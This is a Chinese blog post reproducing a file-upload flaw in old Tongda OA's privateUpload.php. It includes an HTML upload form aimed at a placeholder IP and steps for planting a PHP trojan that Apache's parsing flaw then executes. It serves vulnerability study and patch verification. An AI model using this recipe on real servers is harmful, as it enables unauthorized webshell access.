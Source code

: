 **目录**

[漏洞文件](#t0 "漏洞文件")

[漏洞利用条件](#t1 "漏洞利用条件")

[漏洞复现](#t2 "漏洞复现")

* * *

### 漏洞文件

    /general/vmeet/privateUpload.php

### 漏洞利用条件

*   通达OA低版本
*   apache存在解析漏洞

### 漏洞复现

测试环境：通达OA 2008，[apache](https://so.csdn.net/so/search?q=apache&spm=1001.2101.3001.7020)存在解析漏洞

![](https://img-blog.csdnimg.cn/20200512200913686.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

首先访问是否存在该文件

![](https://img-blog.csdnimg.cn/20200512201043851.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

存在的话，将下面代码保存后缀为1.html文件，然后将[木马](https://so.csdn.net/so/search?q=%E6%9C%A8%E9%A9%AC&spm=1001.2101.3001.7020)命名为 aa.php.1，与1.html在同一个目录下

```
<form id="frmUpload" enctype="multipart/form-data"      
action="http://xx.xx.xx.xx/general/vmeet/privateUpload.php?fileName=aa.php.1" method="post">Upload a new file:<br>      
<input type="file" name="Filedata" size="50"><br>      
<input type="submit" value="Upload">      
</form>
```


![](https://img-blog.csdnimg.cn/20200512201321826.png)

双击1.html用浏览器打开，然后选择 aa.php.1 文件，点击Upload，文件上传成功。

![](https://img-blog.csdnimg.cn/2020051220142376.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200512201453722.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

此时木马文件路径为： http://xx.xx.xx.xx/general/vmeet/upload/temp/aa.php.1

由于apache存在解析漏洞，aa.php.1 文件会被apache当做php文件解析，所以可以执行成功。传送门：[Apache解析漏洞](https://xie1997.blog.csdn.net/article/details/82834063#%E4%B8%80%EF%BC%9A%E6%96%87%E4%BB%B6%E5%90%8D%E8%A7%A3%E6%9E%90%E6%BC%8F%E6%B4%9E "Apache解析漏洞")

![](https://img-blog.csdnimg.cn/20200512201537516.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)